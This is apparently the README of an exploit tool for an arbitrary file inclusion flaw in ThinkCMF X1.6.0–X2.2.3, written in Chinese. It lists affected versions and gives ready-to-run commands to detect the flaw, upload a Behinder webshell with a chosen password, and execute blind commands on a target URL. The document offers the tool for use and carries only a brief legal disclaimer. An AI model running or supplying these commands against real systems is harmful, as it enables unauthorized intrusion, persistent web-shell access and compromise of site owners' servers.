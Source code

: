 # 说明：

本工具适用于Thinkcmf任意内容包含漏洞，提供一般检测，一键上传冰蝎马，以及无回显命令执行功能。ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

本工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。

# 适用版本：

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
ThinkCMF X2.2.3

ThinkCMF源码下载地址https://gitee.com/thinkcmf/ThinkCMFX/releases

# 使用说明:

### 显示帮助

python thinkcmf_exp.py -h 

### 检测漏洞是否存在

python thinkcmf_exp.py -u http://yourURL/

### 上传冰蝎马

python thinkcmf_exp.py -u http://yourURL/ -p yourPassword

### 无回显命令执行

python thinkcmf_exp.py -u http://yourURL/ -c yourCommand
